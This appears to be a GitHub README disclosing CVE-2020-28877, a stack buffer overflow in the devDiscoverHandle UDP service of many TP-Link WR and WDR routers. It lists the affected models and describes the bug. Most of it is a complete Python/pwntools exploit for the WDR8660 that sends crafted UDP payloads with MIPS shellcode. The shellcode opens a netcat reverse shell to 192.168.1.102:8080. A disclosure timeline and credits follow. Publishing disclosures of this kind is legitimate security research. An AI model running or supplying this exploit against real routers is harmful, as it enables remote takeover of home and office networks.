

# TP-Link-poc

TP-Link router have a stack overflow in devDiscoverHandle server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest WR、WDR series, including WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description

This vulnerability happen when  devDiscoverHandle  receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `iParm1` and `iParm3` that It lead to a stack buffer overflow to execute arbitrary code.



## Poc

Refer to this video: [poc_video.mkv](./poc_video.mkv)

**poc&exp**

It's for WDR8660
```
import sys
import struct
import requests
from pwn import *
from time import sleep

context.arch='mips'
context.endian='little'

udp_data_addr = 0x0419680

def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

context.arch='mips'
context.endian='little'

magic = b'\x01\x02\x0e\x00\xe1\x2b\x83\xc7'
shellcode = asm(shellcraft.nop()*0x8) + asm(shellcraft.execve(path = "/bin/sh", argv=['sh', '-c', 'mknod /tmp/a p; nc 192.168.1.102 8080 0</tmp/a | /bin/sh 1>/tmp/a 2>&1;']))

gadget1 = p32(udp_data_addr + 0x300)
pad2 = b'shellcode'.ljust(600-0x10, b'\x00') + gadget1

context.endian='big'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2

checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload2 = magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp

pad2 = b'helo'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2
checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload1 = (magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp).ljust(0x300, b'\x00') + shellcode

assert(len(payload1) < 0x5c0)
assert(len(payload2) < 0x300)

print("[*] Sending payload1")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload1,('192.168.1.1',5001))
udp.close()

sys.stdout.write('[*] Waiting for 20 seconds')
i = 1
while i <= 20:
    sleep(1)
    sys.stdout.write('.')
    sys.stdout.flush()
    i += 1

print('')
print("[*] Sending payload2")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload2,('192.168.1.1',5001))
udp.close()
sleep(1)
print("[+] Success")

```

## Timeline
2020.11.15 report to CVE and TP-Link

2020.11.21 assign [CVE-2020-28877](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-28877)

## Acknowledgment 

Credit to [@peanuts](https://github.com/peanuts62), [@leonW7](https://github.com/leonW7) and [@cpegg](https://github.com/cpeggg) from Technology Research Institute of Legendsec at Qi'anxin Group.
